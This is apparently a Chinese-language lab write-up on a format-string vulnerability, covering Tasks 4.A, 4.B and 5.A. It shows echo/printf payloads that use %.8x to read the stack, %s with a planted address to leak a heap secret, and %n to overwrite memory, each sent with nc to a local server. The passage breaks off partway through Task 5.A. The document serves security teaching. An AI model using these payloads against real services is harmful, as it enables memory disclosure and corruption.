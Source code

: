 ### Task 4.A: Stack Data
首先考虑在客户端输入32个`%.8x`，可以在服务器端打印出一些信息：

![image](https://user-images.githubusercontent.com/64548919/193278464-c5288c47-2a8b-4eb6-8475-ad7e35d7ac40.png)

注意这个16进制数字`78382e25`，下面展示其与ASCII码表的计算转换过程：

```
0x25=37='%'
0X2e=46='.'
0x38=56='8'
0x78=120='x'
```

可以看到，`%.8x`以小端存储于该地址中。从输出从前往后数，可以得知这是第24个`%.8x`。因此至少需要24个`%.8x`以获得输入的前4个bytes。

### Task 4.B: Heap Data

1. 考虑向input文件中输入`\xc0\x87\x04\x08`和23个`%.8x.`和1个`%s`：

```
echo $(printf "\xc0\x87\x04\x08") \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%s
```

![image](https://user-images.githubusercontent.com/64548919/193287738-5f64d16b-1cad-4853-88f8-ad8ebae6a0f0.png)

2. 考虑将input重定向至nc以发送给server:

```
nc -u 127.0.0.1 9090 < input
```

可以看到读取到了heap区域的secret字符串。

![image](https://user-images.githubusercontent.com/64548919/193288129-1192d3f6-e5df-437a-bfff-a7617170d7b2.png)


## Task 5

### Task 5.A: Change the value to a different value.

1. 考虑向input文件中输入`\x40\xa0\x04\x08`和23个`%.8x.`和1个`%n`

```
echo $(printf "\x40\xa0\x04\x08") \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x \
%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%.8x.%n
```

![image](https://user-images.githubusercontent.com/64548919/193293488-3cf056fc-ce4f-4fc3-babc-a0b70d96458f.png)

2. 考虑将input重定向至nc以发送给server:
